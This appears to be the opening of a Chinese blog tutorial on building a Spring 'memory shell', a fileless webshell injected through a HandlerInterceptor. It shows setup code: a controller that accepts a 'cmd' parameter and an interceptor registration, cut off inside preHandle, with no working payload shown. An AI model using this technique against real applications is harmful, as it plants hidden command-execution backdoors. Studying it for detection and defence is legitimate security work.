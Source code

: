 #  spring内存马-Interceptor构造   
 轩公子谈技术   2025-06-05 01:53  
  
# spring内存马-Interceptor构造  
- ## 环境搭建  
  
方便调试代码，创建一个自定义的  
Interceptor筛选器  
  
  
import org.springframework.web.bind.annotation.*;              
  
import org.springframework.web.servlet.*;              
  
import org.springframework.web.servlet.config.annotation.*;              
  
import javax.servlet.http.*;              
  
  
@RestController              
  
public class CmdController implements WebMvcConfigurer {              
  
  
      
// 控制器方法 - 处理/index请求              
  
      
@GetMapping("/index")              
  
      
public String index(@RequestParam String cmd) {              
  
          
System.out.println("执行命令: " + cmd);              
  
          
return "命令执行成功: " + cmd;              
  
      
}              
  
  
      
// 注册拦截器              
  
      
@Override              
  
      
public void addInterceptors(InterceptorRegistry registry) {              
  
          
registry.addInterceptor(new HandlerInterceptor() {              
  
              
@Override              
  
              
public boolean preHandle(HttpServletRequest request,              
  
                                       
HttpServletResponse response,              
  
                                       
Object handler) throws Exception {              
  